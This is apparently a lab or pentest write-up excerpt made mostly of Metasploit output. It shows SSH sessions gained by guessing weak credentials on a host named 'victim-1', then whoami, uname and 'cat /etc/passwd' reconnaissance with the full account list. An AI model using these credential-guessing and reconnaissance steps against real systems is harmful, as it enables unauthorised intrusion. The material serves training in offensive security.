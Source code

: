 ```
  5         shell unknown  SSH anon:741852963 (192.180.250.3:22)           192.180.250.2:44943 -> 192.180.250.3:22 (192.180.250.3)
  6         shell unknown  SSH administrator:password1 (192.180.250.3:22)  192.180.250.2:45943 -> 192.180.250.3:22 (192.180.250.3)
  7         shell unknown  SSH diag:secret (192.180.250.3:22)              192.180.250.2:41153 -> 192.180.250.3:22 (192.180.250.3)
```

```
msf5 auxiliary(scanner/ssh/ssh_login) > sessions -i 1
[*] Starting interaction with 1...

Welcome to Ubuntu 19.04 (GNU/Linux 5.4.0-125-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
whoami
sysadmin
groups sysadmin
sysadmin : sysadmin
cat /etc/*issue
Ubuntu 19.04 \n \l

uname -a
Linux victim-1 5.4.0-125-generic #141-Ubuntu SMP Wed Aug 10 13:42:03 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
sysadmin:x:1000:1000:,,,:/home/sysadmin:/bin/bash
rooty:x:1001:1001:,,,:/home/rooty:/bin/bash
demo:x:1002:1002:,,,:/home/demo:/bin/bash
auditor:x:1003:1003:,,,:/home/auditor:/bin/bash
anon:x:1004:1004:,,,:/home/anon:/bin/bash
administrator:x:1005:1005:,,,:/home/administrator:/bin/bash
```
